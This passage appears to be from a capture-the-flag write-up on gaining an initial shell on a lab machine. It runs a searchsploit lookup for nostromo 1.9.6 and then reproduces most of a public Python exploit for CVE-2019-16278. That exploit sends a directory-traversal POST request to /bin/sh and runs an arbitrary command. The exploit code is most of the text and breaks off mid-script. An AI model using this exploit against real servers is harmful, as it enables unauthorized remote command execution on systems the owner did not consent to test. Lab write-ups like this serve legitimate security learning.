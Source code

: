 

## Initial foothold 

beside show only two ports open, the nmap scan already have all we need do get a initial shell. The server running in port 80 is **nostromo 1.9.6** . A simple ***searchsploit*** give all we  need to get a shell: 

## Searchsploit

```bash	
dumbland () Documents/learn-notes/writeups-htb :: searchsploit nostromo 1.9.6

nostromo 1.9.6 - Remote Code Execution                      exploits/multiple/remote/47837.py
```

Lets see how the exploits looks like:

```bash	
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/



"""

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except:
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":

    print(art)

    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]
```